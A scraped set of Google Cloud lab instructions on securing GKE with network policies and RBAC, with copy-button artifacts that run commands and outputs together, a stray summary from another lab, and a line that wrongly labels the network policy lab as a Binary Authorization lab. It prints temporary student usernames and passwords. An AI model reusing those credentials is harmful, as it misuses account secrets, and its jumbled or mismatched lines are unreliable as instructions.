In this lab, you have configured a new Kubernetes Engine private cluster that is configured to use a dedicated service account with the least privileges required to run the cluster. You have also created a custom IAM role that provides the permissions required to create and update storage objects in Google Cloud Storage buckets and bound that role to the service account used by the cluster. You also validated that the cluster is working correctly by deploying a simple application to the cluster to test that management access to the cluster using the kubectl tool is working from the orca-jumphost compute instance.

Google Kubernetes Engine Best Practices: Security
LAB - How to Use a Network Policy on Google Kubernetes Engine
Overview
This lab will show you how to improve the security of your Kubernetes Engine by applying fine-grained restrictions to network communication.
The Principle of Least Privilege is widely recognized as an important design consideration in enhancing the protection of critical systems from faults and malicious behavior. It suggests that every component must be able to access only the information and resources that are necessary for its legitimate purpose. This document demonstrates how the Principle of Least Privilege can be implemented within the Kubernetes Engine network layer.
Network connections can be restricted at two tiers of your Kubernetes Engine infrastructure. The first, and coarser grained, mechanism is the application of Firewall Rules at the Network, Subnetwork, and Host levels. These rules are applied outside of the Kubernetes Engine at the VPC level.
While Firewall Rules are a powerful security measure, and Kubernetes enables you to define even finer grained rules via Network Policies. Network Policies are used to limit intra-cluster communication. Network policies do not apply to pods attached to the host's network namespace.
For this lab you will provision a private Kubernetes Engine cluster and a bastion host with which to access it. A bastion host provides a single host that has access to the cluster, which, when combined with a private Kubernetes network, ensures that the cluster isn't exposed to malicious behavior from the internet at large. Bastions are particularly useful when you do not have VPN access to the cloud network.
Within the cluster, a simple HTTP server and two client pods will be provisioned. You will learn how to use a Network Policy and labeling to only allow connections from one of the client pods.
This lab was created by GKE Helmsman engineers to give you a better understanding of GKE Binary Authorization. You can view this demo by running gsutil cp -r gs://spls/gke-binary-auth/* . and cd gke-binary-auth-demo command in cloud shell. We encourage any and all to contribute to our assets!
Architecture
You will define a private, standard mode Kubernetes cluster that uses Dataplane V2. Dataplane V2 has network policies enabled by default.
Since the cluster is private, neither the API nor the worker nodes will be accessible from the internet. Instead, you will define a bastion host and use a firewall rule to enable access to it. The bastion's IP address is defined as an authorized network for the cluster, which grants it access to the API.
Within the cluster, provision three workloads:
hello-server: this is a simple HTTP server with an internally-accessible endpoint
hello-client-allowed: this is a single pod that repeatedly attempts to access hello-server. The pod is labeled such that the Network Policy will allow it to connect to hello-server.
hello-client-blocked: this runs the same code as hello-client-allowed but the pod is labeled such that the Network Policy will not allow it to connect to hello-server.
Setup and requirements
Before you click the Start Lab button
Read these instructions. Labs are timed and you cannot pause them. The timer, which starts when you click Start Lab, shows how long Google Cloud resources are made available to you.
This hands-on lab lets you do the lab activities in a real cloud environment, not in a simulation or demo environment. It does so by giving you new, temporary credentials you use to sign in and access Google Cloud for the duration of the lab.
To complete this lab, you need:
Access to a standard internet browser (Chrome browser recommended).
Note: Use an Incognito (recommended) or private browser window to run this lab. This prevents conflicts between your personal account and the student account, which may cause extra charges incurred to your personal account.
Time to complete the lab—remember, once you start, you cannot pause a lab.
Note: Use only the student account for this lab. If you use a different Google Cloud account, you may incur charges to that account.
How to start your lab and sign in to the Google Cloud console
Click the Start Lab button. If you need to pay for the lab, a dialog opens for you to select your payment method. On the left is the Lab Details pane with the following:
The Open Google Cloud console button
Time remaining
The temporary credentials that you must use for this lab
Other information, if needed, to step through this lab
Click Open Google Cloud console (or right-click and select Open Link in Incognito Window if you are running the Chrome browser).
The lab spins up resources, and then opens another tab that shows the Sign in page.
*Tip:* Arrange the tabs in separate windows, side-by-side.
Note: If you see the Choose an account dialog, click Use Another Account.
If necessary, copy the Username below and paste it into the Sign in dialog.
xxxxxxxxxxstudent-02-1aeeb3e9ea9b@qwiklabs.netCopied!
You can also find the Username in the Lab Details pane.
Click Next.
Copy the Password below and paste it into the Welcome dialog.
xxxxxxxxxxlmTNItcHGI0eCopied!
You can also find the Password in the Lab Details pane.
Click Next.
Important: You must use the credentials the lab provides you. Do not use your Google Cloud account credentials.
Note: Using your own Google Cloud account for this lab may incur extra charges.
Click through the subsequent pages:
Accept the terms and conditions.
Do not add recovery options or two-factor authentication (because this is a temporary account).
Do not sign up for free trials.
After a few moments, the Google Cloud console opens in this tab.
Note: To access Google Cloud products and services, click the Navigation menu or type the service or product name in the Search field.
Activate Cloud Shell
Cloud Shell is a virtual machine that is loaded with development tools. It offers a persistent 5GB home directory and runs on the Google Cloud. Cloud Shell provides command-line access to your Google Cloud resources.
Click Activate Cloud Shell
Click through the following windows:
Continue through the Cloud Shell information window.
Authorize Cloud Shell to use your credentials to make Google Cloud API calls.
When you are connected, you are already authenticated, and the project is set to your Project_ID, qwiklabs-gcp-02-ede9e9aa3015. The output contains a line that declares the Project_ID for this session:
xxxxxxxxxxYour Cloud Platform project in this session is set to qwiklabs-gcp-02-ede9e9aa3015
gcloud is the command-line tool for Google Cloud. It comes pre-installed on Cloud Shell and supports tab-completion.
(Optional) You can list the active account name with this command:
xxxxxxxxxxgcloud auth list
Copied!
Click Authorize.
Output:
xxxxxxxxxxACTIVE: *ACCOUNT: student-02-1aeeb3e9ea9b@qwiklabs.netTo set the active account, run:$ gcloud config set account `ACCOUNT`
(Optional) You can list the project ID with this command:
xxxxxxxxxxgcloud config list project
Copied!
Output:
xxxxxxxxxx[core]project = qwiklabs-gcp-02-ede9e9aa3015
Note: For full documentation of gcloud, in Google Cloud, refer to the gcloud CLI overview guide.
Clone demo
Copy the resources needed for this lab exercise from a Cloud Storage bucket:
xxxxxxxxxxgsutil cp -r gs://spls/gsp480/gke-network-policy-demo .
Copied!
Go into the directory for the demo:
xxxxxxxxxxcd gke-network-policy-demo
Copied!
Make the demo files executable:
xxxxxxxxxxchmod -R 755 *
Copied!
Task 1. Lab setup
First, set the Google Cloud region and zone.
Set the Google Cloud region.
xxxxxxxxxxgcloud config set compute/region "europe-west1"
Copied!
Set the Google Cloud zone.
xxxxxxxxxxgcloud config set compute/zone "europe-west1-b"Copied!
This lab will use the following Google Cloud Service APIs, and have been enabled for you:
compute.googleapis.comcontainer.googleapis.comcloudbuild.googleapis.com
In addition, the Terraform configuration takes three parameters to determine where the Kubernetes Engine cluster should be created:
project IDregionzone
For simplicity, these parameters are specified in a file named terraform.tfvars, in the terraform directory.
To ensure the appropriate APIs are enabled and to generate the
terraform/terraform.tfvarsfile based on your gcloud defaults, run:
xxxxxxxxxxmake setup-project
Copied!
Type
ywhen asked to confirm.
This will enable the necessary Service APIs, and it will also generate a terraform/terraform.tfvars file with the following keys.
Verify the values themselves will match the output of
gcloud config listby running:
xxxxxxxxxxcat terraform/terraform.tfvars
Copied!
Provisioning the Kubernetes Engine cluster
Next, apply the Terraform configuration within the project root:
xxxxxxxxxxmake tf-apply
Copied!
When prompted, review the generated plan and enter
yesto deploy the environment.
This will take several minutes to deploy.
Task 2. Validation
Terraform outputs a message when the cluster's been successfully created.
xxxxxxxxxx...snip...google_container_cluster.primary: Still creating... (3m0s elapsed)google_container_cluster.primary: Still creating... (3m10s elapsed)google_container_cluster.primary: Still creating... (3m20s elapsed)google_container_cluster.primary: Still creating... (3m30s elapsed)google_container_cluster.primary: Creation complete after 3m34s (ID: gke-demo-cluster)Apply complete! Resources: 5 added, 0 changed, 0 destroyed.
Test completed task
Click Check my progress to verify your performed task. If you have successfully deployed necessary infrastructure with Terraform, you will see an assessment score.
Use Terraform to set up the necessary infrastructure (Lab setup)
Check my progress
Now ssh into the bastion for the remaining steps:
xxxxxxxxxxgcloud compute ssh gke-demo-bastion
Copied!
Existing versions of kubectl and custom Kubernetes clients contain provider-specific code to manage authentication between the client and Google Kubernetes Engine. Starting with v1.26, this code will no longer be included as part of the OSS kubectl. GKE users will need to download and use a separate authentication plugin to generate GKE-specific tokens. This new binary, gke-gcloud-auth-plugin, uses the Kubernetes Client-go Credential Plugin mechanism to extend kubectl’s authentication to support GKE. For more information, you can check out the following documentation.
To have kubectl use the new binary plugin for authentication instead of using the default provider-specific code, use the following steps.
Once connected, run the following command to install the
gke-gcloud-auth-pluginon the VM.
xxxxxxxxxxsudo apt-get install google-cloud-sdk-gke-gcloud-auth-plugin
Copied!
Set
export USE_GKE_GCLOUD_AUTH_PLUGIN=Truein~/.bashrc:
xxxxxxxxxxecho "export USE_GKE_GCLOUD_AUTH_PLUGIN=True" >> ~/.bashrc
Copied!
Run the following command:
xxxxxxxxxxsource ~/.bashrc
Copied!
Run the following command to force the config for this cluster to be updated to the Client-go Credential Plugin configuration.
xxxxxxxxxxgcloud container clusters get-credentials gke-demo-cluster --zone europe-west1-b
Copied!
On success, you should see this message:
xxxxxxxxxxkubeconfig entry generated for gke-demo-cluster.
The newly-created cluster will now be available for the standard kubectl commands on the bastion.
Task 3. Installing the hello server
The test application consists of one simple HTTP server, deployed as hello-server, and two clients, one of which will be labeled app=hello and the other app=not-hello.
All three services can be deployed by applying the hello-app manifests.
On the bastion, run:
xxxxxxxxxxkubectl apply -f ./manifests/hello-app/
Copied!
Output:
xxxxxxxxxxdeployment.apps/hello-client-allowed createddeployment.apps/hello-client-blocked createdservice/hello-server createddeployment.apps/hello-server created
Verify all three pods have been successfully deployed:
xxxxxxxxxxkubectl get pods
Copied!
You will see one running pod for each of hello-client-allowed, hello-client-blocked, and hello-server deployments.
xxxxxxxxxxNAME READY STATUS RESTARTS AGEhello-client-allowed-7d95fcd5d9-t8fsk | 1/1 Running 0 14mhello-client-blocked-6497db465d-ckbn8 | 1/1 Running 0 14mhello-server-7df58f7fb5-nvcvd | 1/1 Running 0 14m
Test completed task
Click Check my progress to verify your performed task. If you have successfully deployed a simple HTTP hello server, you will see an assessment score.
Installing the hello server
Check my progress
Task 4. Confirming default access to the hello server
First, tail the "allowed" client:
xxxxxxxxxxkubectl logs --tail 10 -f $(kubectl get pods -oname -l app=hello)
Copied!
Press CTRL+C to exit.
Second, tail the logs of the "blocked" client:
xxxxxxxxxxkubectl logs --tail 10 -f $(kubectl get pods -oname -l app=not-hello)
Copied!
Press CTRL+C to exit.
You will notice that both pods are successfully able to connect to the hello-server service. This is because you have not yet defined a Network Policy to restrict access. In each of these windows you should see successful responses from the server.
xxxxxxxxxxHostname: hello-server-7df58f7fb5-nvcvdHello, world!Version: 1.0.0Hostname: hello-server-7df58f7fb5-nvcvdHello, world!Version: 1.0.0Hostname: hello-server-7df58f7fb5-nvcvd...
Task 5. Restricting access with a Network Policy
Now you will block access to the hello-server pod from all pods that are not labeled with app=hello.
The policy definition you'll use is contained in manifests/network-policy.yaml
Apply the policy with the following command:
xxxxxxxxxxkubectl apply -f ./manifests/network-policy.yaml
Copied!
Output:
xxxxxxxxxxnetworkpolicy.networking.k8s.io/hello-server-allow-from-hello-client created
Tail the logs of the "blocked" client again:
xxxxxxxxxxkubectl logs --tail 10 -f $(kubectl get pods -oname -l app=not-hello)
Copied!
You'll now see that the output looks like this in the window tailing the "blocked" client:
xxxxxxxxxxwget: download timed outwget: download timed outwget: download timed outwget: download timed outwget: download timed outwget: download timed outwget: download timed outwget: download timed outwget: download timed out...
The network policy has now prevented communication to the hello-server from the unlabeled pod.
Press CTRL+C to exit.
Task 6. Restricting namespaces with Network Policies
In the previous example, you defined a network policy that restricts connections based on pod labels. It is often useful to instead label entire namespaces, particularly when teams or applications are granted their own namespaces.
You'll now modify the network policy to only allow traffic from a designated namespace, then you'll move the hello-allowed pod into that new namespace.
First, delete the existing network policy:
xxxxxxxxxxkubectl delete -f ./manifests/network-policy.yaml
Copied!
Output:
xxxxxxxxxxnetworkpolicy.networking.k8s.io "hello-server-allow-from-hello-client" deleted
Create the namespaced version:
xxxxxxxxxxkubectl create -f ./manifests/network-policy-namespaced.yaml
Copied!
Output:
xxxxxxxxxxnetworkpolicy.networking.k8s.io/hello-server-allow-from-hello-client created
Now observe the logs of the
hello-allowed-clientpod in the default namespace:
xxxxxxxxxxkubectl logs --tail 10 -f $(kubectl get pods -oname -l app=hello)
Copied!
You will notice it is no longer able to connect to the hello-server.
Press CTRL+C to exit.
Finally, deploy a second copy of the hello-clients app into the new namespace.
xxxxxxxxxxkubectl -n hello-apps apply -f ./manifests/hello-app/hello-client.yaml
Copied!
Output:
xxxxxxxxxxdeployment.apps/hello-client-allowed createddeployment.apps/hello-client-blocked created
Test completed task
Click Check my progress to verify your performed task. If you have successfully deployed a second copy of the hello-clients app into the new namespace, you will see an assessment score.
Deploy a second copy of the hello-clients app into the new namespace
Check my progress
Task 7. Validation
Next, check the logs for the two new hello-app clients.
View the logs for the "hello"-labeled app in the app in the
hello-appsnamespace by running:
xxxxxxxxxxkubectl logs --tail 10 -f -n hello-apps $(kubectl get pods -oname -l app=hello -n hello-apps)
Copied!
Output:
xxxxxxxxxxHostname: hello-server-6c6fd59cc9-7fvgpHello, world!Version: 1.0.0Hostname: hello-server-6c6fd59cc9-7fvgpHello, world!Version: 1.0.0Hostname: hello-server-6c6fd59cc9-7fvgpHello, world!Version: 1.0.0Hostname: hello-server-6c6fd59cc9-7fvgpHello, world!Version: 1.0.0Hostname: hello-server-6c6fd59cc9-7fvgp
Both clients are able to connect successfully because as of Kubernetes 1.10.x NetworkPolicies do not support restricting access to pods within a given namespace. You can allowlist by pod label, namespace label, or allowlist the union (i.e. OR) of both. But you cannot yet allowlist the intersection (i.e. AND) of pod labels and namespace labels.
Press CTRL+C to exit.
Task 8. Teardown
Qwiklabs will take care of shutting down all the resources used for this lab, but here’s what you would need to do to clean up your own environment to save on cost and to be a good cloud citizen:
Log out of the bastion host:
xxxxxxxxxxexit
Copied!
Run the following to destroy the environment:
xxxxxxxxxxmake teardown
Copied!
Output:
xxxxxxxxxx...snip...google_compute_subnetwork.cluster-subnet: Still destroying... (ID: us-east1/kube-net-subnet, 20s elapsed)google_compute_subnetwork.cluster-subnet: Destruction complete after 25sgoogle_compute_network.gke-network: Destroying... (ID: kube-net)google_compute_network.gke-network: Still destroying... (ID: kube-net, 10s elapsed)google_compute_network.gke-network: Still destroying... (ID: kube-net, 20s elapsed)google_compute_network.gke-network: Destruction complete after 26sDestroy complete! Resources: 5 destroyed.
Task 9. Troubleshooting in your own environment
The install script fails with a "permission denied" error when running Terraform
The credentials that Terraform is using do not provide the necessary permissions to create resources in the selected projects. Ensure that the account listed in gcloud config list has necessary permissions to create resources. If it does, regenerate the application default credentials using gcloud auth application-default login.
Invalid fingerprint error during Terraform operations
Terraform occasionally complains about an invalid fingerprint, when updating certain resources.
If you see the error below, simply re-run the command.
Congratulations!
You improved the security of your Kubernetes Engine by applying fine-grained restrictions to network communication.
LAB - Using Role-based Access Control in Kubernetes Engine
Overview
This lab covers the usage and debugging of role-based access control (RBAC) in a Kubernetes Engine cluster.
While RBAC resource definitions are standard across all Kubernetes platforms, their interaction with underlying authentication and authorization providers needs to be understood when building on any cloud provider.
RBAC is a powerful security mechanism that provides great flexibility in how you restrict operations within a cluster. This lab will cover two use cases for RBAC:
Assigning different permissions to user personas, namely owners and auditors.
Granting limited API access to an application running within your cluster.
Since RBAC's flexibility can occasionally result in complex rules, common steps for troubleshooting RBAC are included as part of scenario 2.
Architecture
This lab focuses on the use of RBAC within a Kubernetes Engine cluster. It demonstrates how varying levels of cluster privilege can be granted to different user personas. You will provision two service accounts to represent user personas and three namespaces: dev, test, and prod. The "owner" persona will have read-write access to all three namespaces, while the "auditor" persona will have read-only access and be restricted to the dev namespace.
This lab was created by GKE Helmsman engineers to help you grasp a better understanding of Using role-based access controls in GKE. You can view this demo on Github. We encourage any and all to contribute to our assets!
Setup and requirements
Before you click the Start Lab button
Read these instructions. Labs are timed and you cannot pause them. The timer, which starts when you click Start Lab, shows how long Google Cloud resources are made available to you.
This hands-on lab lets you do the lab activities in a real cloud environment, not in a simulation or demo environment. It does so by giving you new, temporary credentials you use to sign in and access Google Cloud for the duration of the lab.
To complete this lab, you need:
Access to a standard internet browser (Chrome browser recommended).
Note: Use an Incognito (recommended) or private browser window to run this lab. This prevents conflicts between your personal account and the student account, which may cause extra charges incurred to your personal account.
Time to complete the lab—remember, once you start, you cannot pause a lab.
Note: Use only the student account for this lab. If you use a different Google Cloud account, you may incur charges to that account.
How to start your lab and sign in to the Google Cloud console
Click the Start Lab button. If you need to pay for the lab, a dialog opens for you to select your payment method. On the left is the Lab Details pane with the following:
The Open Google Cloud console button
Time remaining
The temporary credentials that you must use for this lab
Other information, if needed, to step through this lab
Click Open Google Cloud console (or right-click and select Open Link in Incognito Window if you are running the Chrome browser).
The lab spins up resources, and then opens another tab that shows the Sign in page.
*Tip:* Arrange the tabs in separate windows, side-by-side.
Note: If you see the Choose an account dialog, click Use Another Account.
If necessary, copy the Username below and paste it into the Sign in dialog.
xxxxxxxxxxstudent-02-d79e7215c92b@qwiklabs.netCopied!
You can also find the Username in the Lab Details pane.
Click Next.
Copy the Password below and paste it into the Welcome dialog.
xxxxxxxxxxrDBeNJgZxCDOCopied!
You can also find the Password in the Lab Details pane.
Click Next.
Important: You must use the credentials the lab provides you. Do not use your Google Cloud account credentials.
Note: Using your own Google Cloud account for this lab may incur extra charges.
Click through the subsequent pages:
Accept the terms and conditions.
Do not add recovery options or two-factor authentication (because this is a temporary account).
Do not sign up for free trials.
After a few moments, the Google Cloud console opens in this tab.
Note: To access Google Cloud products and services, click the Navigation menu or type the service or product name in the Search field.
Activate Cloud Shell
Cloud Shell is a virtual machine that is loaded with development tools. It offers a persistent 5GB home directory and runs on the Google Cloud. Cloud Shell provides command-line access to your Google Cloud resources.
Click Activate Cloud Shell
Click through the following windows:
Continue through the Cloud Shell information window.
Authorize Cloud Shell to use your credentials to make Google Cloud API calls.
When you are connected, you are already authenticated, and the project is set to your Project_ID, qwiklabs-gcp-03-e21f4fbacbec. The output contains a line that declares the Project_ID for this session:
xxxxxxxxxxYour Cloud Platform project in this session is set to qwiklabs-gcp-03-e21f4fbacbec
gcloud is the command-line tool for Google Cloud. It comes pre-installed on Cloud Shell and supports tab-completion.
(Optional) You can list the active account name with this command:
xxxxxxxxxxgcloud auth list
Copied!
Click Authorize.
Output:
xxxxxxxxxxACTIVE: *ACCOUNT: student-02-d79e7215c92b@qwiklabs.netTo set the active account, run:$ gcloud config set account `ACCOUNT`
(Optional) You can list the project ID with this command:
xxxxxxxxxxgcloud config list project
Copied!
Output:
xxxxxxxxxx[core]project = qwiklabs-gcp-03-e21f4fbacbec
Note: For full documentation of gcloud, in Google Cloud, refer to the gcloud CLI overview guide.
Set your region and zone
Certain Compute Engine resources live in regions and zones. A region is a specific geographical location where you can run your resources. Each region has one or more zones.
Learn more about regions and zones and see a complete list in Regions & Zones documentation.
Run the following to set a region and zone for your lab (you can use the region/zone that's best for you):
xxxxxxxxxxgcloud config set compute/region europe-west4gcloud config set compute/zone europe-west4-a
Copied!
Task 1. Verify the cluster
Confirm the pre created cluster in the Console. Go to Navigation menu > Kubernetes Engine > Clusters and click on the 'rbac-demo-cluster' cluster. Ensure that Legacy Authorization is disabled for the new cluster.
Task 2. Scenario 1: Assigning permissions by user persona
IAM - role
A role named kube-api-ro-xxxxxxxx (where xxxxxxxx is a random string) has been created with the permissions below as part of the Terraform configuration in iam.tf. These permissions are the minimum required for any user that requires access to the Kubernetes API.
container.apiServices.get
container.apiServices.list
container.clusters.get
container.clusters.getCredentials
Simulating users
Three service accounts have been created to act as Test Users:
admin: has admin permissions over the cluster and all resources
owner: has read-write permissions over common cluster resources
auditor: has read-only permissions within the dev namespace only
Run the following:
xxxxxxxxxxgcloud iam service-accounts list
Copied!
Three test hosts have been provisioned by the Terraform script. Each node has kubectl and gcloud installed and configured to simulate a different user persona.
gke-tutorial-admin: kubectl and gcloud are authenticated as a cluster administrator.
gke-tutorial-owner: simulates the
owneraccountgke-tutorial-auditor: simulates the
auditoraccount
Run the following:
xxxxxxxxxxgcloud compute instances list
Copied!
Output:
xxxxxxxxxxNAME ZONE MACHINE_TYPE PREEMPTIBLE INTERNAL_IP EXTERNAL_IP STATUSrbac-demo-cluster-default-pool-a9cd3468-4vpc europe-west4-a n1-standard-1 10.0.96.5 RUNNINGrbac-demo-cluster-default-pool-a9cd3468-b47f europe-west4-a n1-standard-1 10.0.96.6 RUNNINGrbac-demo-cluster-default-pool-a9cd3468-rt5p europe-west4-a n1-standard-1 10.0.96.7 RUNNINGgke-tutorial-auditor europe-west4-a f1-micro 10.0.96.4 35.224.148.28 RUNNINGgke-tutorial-admin europe-west4-a f1-micro 10.0.96.3 35.226.237.142 RUNNINGgke-tutorial-owner europe-west4-a f1-micro 10.0.96.2 35.194.58.130 RUNNING
Creating the RBAC rules
Create the Namespaces, Roles, and RoleBindings by logging into the admin instance and applying the rbac.yaml manifest.
SSH to the admin:
xxxxxxxxxxgcloud compute ssh gke-tutorial-admin
Copied!
Note: Ignore the error which relates to gcp auth plugin.
Existing versions of kubectl and custom Kubernetes clients contain provider-specific code to manage authentication between the client and Google Kubernetes Engine. Starting with v1.26, this code will no longer be included as part of the OSS kubectl. GKE users will need to download and use a separate authentication plugin to generate GKE-specific tokens. This new binary, gke-gcloud-auth-plugin, uses the Kubernetes Client-go Credential Plugin mechanism to extend kubectl’s authentication to support GKE. For more information, you can check out the following documentation.
To have kubectl use the new binary plugin for authentication instead of using the default provider-specific code, use the following steps.
Once connected, run the following command to install the
gke-gcloud-auth-pluginon the VM.
xxxxxxxxxxsudo apt-get install google-cloud-sdk-gke-gcloud-auth-plugin
Copied!
Set
export USE_GKE_GCLOUD_AUTH_PLUGIN=Truein~/.bashrc:
xxxxxxxxxxecho "export USE_GKE_GCLOUD_AUTH_PLUGIN=True" >> ~/.bashrc
Copied!
Run the following command:
xxxxxxxxxxsource ~/.bashrc
Copied!
Run the following command to force the config for this cluster to be updated to the Client-go Credential Plugin configuration.
xxxxxxxxxxgcloud container clusters get-credentials rbac-demo-cluster --zone europe-west4-a
Copied!
On success, you should see this message pop up:
xxxxxxxxxxKubeconfig entry generated for dev-cluster.
The newly-created cluster will now be available for the standard kubectl commands on the bastion.
Create the namespaces, roles, and bindings:
xxxxxxxxxxkubectl apply -f ./manifests/rbac.yaml
Copied!
Output:
xxxxxxxxxxnamespace/dev creatednamespace/prod creatednamespace/test createdrole.rbac.authorization.k8s.io/dev-ro createdclusterrole.rbac.authorization.k8s.io/all-rw createdclusterrolebinding.rbac.authorization.k8s.io/owner-binding createdrolebinding.rbac.authorization.k8s.io/auditor-binding created
Click Check my progress to verify the objective.
Creating the RBAC rules
Check my progress
Managing resources as the owner
Open a new Cloud Shell terminal by clicking the + at the top of the terminal window.
You will now SSH into the owner instance and create a simple deployment in each namespace.
SSH to the "owner" instance:
xxxxxxxxxxgcloud compute ssh gke-tutorial-owner
Copied!
Note: Ignore the error which relates to gcp auth plugin.
When prompted about the zone, enter
n, so the default zone is used.Install gke-gcloud-auth-plugin:
xxxxxxxxxxsudo apt-get install google-cloud-sdk-gke-gcloud-auth-pluginecho "export USE_GKE_GCLOUD_AUTH_PLUGIN=True" >> ~/.bashrcsource ~/.bashrcgcloud container clusters get-credentials rbac-demo-cluster --zone europe-west4-a
Copied!
Create a server in each namespace, first
dev:
xxxxxxxxxxkubectl create -n dev -f ./manifests/hello-server.yaml
Copied!
Output:
xxxxxxxxxxservice/hello-server createddeployment.apps/hello-server created
And then
prod:
xxxxxxxxxxkubectl create -n prod -f ./manifests/hello-server.yaml
Copied!
Output:
xxxxxxxxxxservice/hello-server createddeployment.apps/hello-server created
Then
test:
xxxxxxxxxxkubectl create -n test -f ./manifests/hello-server.yaml
Copied!
Output:
xxxxxxxxxxservice/hello-server createddeployment.apps/hello-server created
Click Check my progress to verify the objective.
Create a server in each namespace
Check my progress
As the owner, you will also be able to view all pods.
On the "owner" instance list all
hello-serverpods in all namespaces by running:
xxxxxxxxxxkubectl get pods -l app=hello-server --all-namespaces
Copied!
Output:
xxxxxxxxxxNAMESPACE NAME READY STATUS RESTARTS AGEdev hello-server-6c6fd59cc9-h6zg9 1/1 Running 0 6mprod hello-server-6c6fd59cc9-mw2zt 1/1 Running 0 44stest hello-server-6c6fd59cc9-sm6bs 1/1 Running 0 39s
Viewing resources as the auditor
Now you will open a new terminal, SSH into the auditor instance, and try to view all namespaces.
Open a new Cloud Shell terminal by clicking the + at the top of the terminal window.
SSH to the "auditor" instance:
xxxxxxxxxxgcloud compute ssh gke-tutorial-auditor
Copied!
Note: Ignore the error which relates to gcp auth plugin.
When prompted about the zone, enter
n, so the default zone is used.Install gke-gcloud-auth-plugin:
xxxxxxxxxxsudo apt-get install google-cloud-sdk-gke-gcloud-auth-pluginecho "export USE_GKE_GCLOUD_AUTH_PLUGIN=True" >> ~/.bashrcsource ~/.bashrcgcloud container clusters get-credentials rbac-demo-cluster --zone europe-west4-a
Copied!
On the "auditor" instance, list all
hello-serverpods in all namespaces with the following:
xxxxxxxxxxkubectl get pods -l app=hello-server --all-namespaces
Copied!
You should see an error like the following:
xxxxxxxxxxError from server (Forbidden): pods is forbidden: User "gke-tutorial-auditor@myproject.iam.gserviceaccount.com" cannot list pods at the cluster scope: Required "container.pods.list" permission
The error indicates that you don't have sufficient permissions. The auditor role is restricted to viewing only the resources in the dev namespace, so you'll need to specify the namespace when viewing resources.
Now attempt to view pods in the dev namespace.
On the "auditor" instance run the following:
xxxxxxxxxxkubectl get pods -l app=hello-server --namespace=dev
Copied!
Output:
xxxxxxxxxxNAME READY STATUS RESTARTS AGEhello-server-6c6fd59cc9-h6zg9 1/1 Running 0 13m
Try to view pods in the test namespace:
xxxxxxxxxxkubectl get pods -l app=hello-server --namespace=test
Copied!
Output:
xxxxxxxxxxError from server (Forbidden): pods is forbidden: User "gke-tutorial-auditor@myproject.iam.gserviceaccount.com" cannot list pods in the namespace "test": Required "container.pods.list" permission.
Attempt to view pods in the prod namespace:
xxxxxxxxxxkubectl get pods -l app=hello-server --namespace=prod
Copied!
Output:
xxxxxxxxxxError from server (Forbidden): pods is forbidden: User "gke-tutorial-auditor@myproject.iam.gserviceaccount.com" cannot list pods in the namespace "prod": Required "container.pods.list" permission.
Finally, verify that the auditor has read-only access by trying to create and delete a deployment in the dev namespace.
On the "auditor" instance attempt to create a deployment:
xxxxxxxxxxkubectl create -n dev -f manifests/hello-server.yaml
Copied!
Output:
xxxxxxxxxxError from server (Forbidden): error when creating "manifests/hello-server.yaml": services is forbidden: User "gke-tutorial-auditor@myproject.iam.gserviceaccount.com" cannot create services in the namespace "dev": Required "container.services.create" permission.Error from server (Forbidden): error when creating "manifests/hello-server.yaml": deployments.extensions is forbidden: User "gke-tutorial-auditor@myproject.iam.gserviceaccount.com" cannot create deployments.extensions in the namespace "dev": Required "container.deployments.create" permission.
On the "auditor" instance, attempt to delete the deployment:
xxxxxxxxxxkubectl delete deployment -n dev -l app=hello-server
Copied!
Output:
xxxxxxxxxxError from server (Forbidden): deployments.extensions "hello-server" is forbidden: User "gke-tutorial-auditor@myproject.iam.gserviceaccount.com" cannot update deployments.extensions in the namespace "dev": Required "container.deployments.update" permission.
Task 3. Scenario 2: Assigning API permissions to a cluster application
In this scenario you'll go through the process of deploying an application that requires access to the Kubernetes API as well as configure RBAC rules while troubleshooting some common use cases.
Deploying the sample application
The sample application will run as a single pod that periodically retrieves all pods in the default namespace from the API server and then applies a timestamp label to each one.
From the admin instance (this should be your first Cloud Shell tab), deploy the
pod-labelerapplication. This will also deploy a Role, ServiceAccount, and RoleBinding for the pod:
xxxxxxxxxxkubectl apply -f manifests/pod-labeler.yaml
Copied!
Output:
xxxxxxxxxxrole.rbac.authorization.k8s.io/pod-labeler createdserviceaccount/pod-labeler createdrolebinding.rbac.authorization.k8s.io/pod-labeler createddeployment.apps/pod-labeler created
Click Check my progress to verify the objective.
Deploying the sample application
Check my progress
Diagnosing an RBAC misconfiguration
Now check the status of the pod. Once the container has finished creating, you'll see it error out. Investigate the error by inspecting the pods' events and logs.
On the admin instance check the pod status:
xxxxxxxxxxkubectl get pods -l app=pod-labeler
Copied!
Output:
xxxxxxxxxxNAME READY STATUS RESTARTS AGEpod-labeler-6d9757c488-tk6sp 0/1 Error 1 1m
On the admin instance, view the pod event stream by running:
xxxxxxxxxxkubectl describe pod -l app=pod-labeler | tail -n 20
Copied!
You should see:
xxxxxxxxxxEvents:Type Reason Age From Message---- ------ ---- ---- -------Normal Scheduled 7m35s default-scheduler Successfully assigned default/pod-labeler-5b4bd6cf9-w66jd to gke-rbac-demo-cluster-default-pool-3d348201-x0pkNormal Pulling 7m34s kubelet, gke-rbac-demo-cluster-default-pool-3d348201-x0pk pulling image "gcr.io/pso-examples/pod-labeler:0.1.5"Normal Pulled 6m56s kubelet, gke-rbac-demo-cluster-default-pool-3d348201-x0pk Successfully pulled image "gcr.io/pso-examples/pod-labeler:0.1.5"Normal Created 5m29s (x5 over 6m56s) kubelet, gke-rbac-demo-cluster-default-pool-3d348201-x0pk Created containerNormal Pulled 5m29s (x4 over 6m54s) kubelet, gke-rbac-demo-cluster-default-pool-3d348201-x0pk Container image "gcr.io/pso-examples/pod-labeler:0.1.5" already present on machineNormal Started 5m28s (x5 over 6m56s) kubelet, gke-rbac-demo-cluster-default-pool-3d348201-x0pk Started containerWarning BackOff 2m25s (x23 over 6m52s) kubelet, gke-rbac-demo-cluster-default-pool-3d348201-x0pk Back-off restarting failed container
On the admin instance, run the following to check the pod's logs:
xxxxxxxxxxkubectl logs -l app=pod-labeler
Copied!
Output:
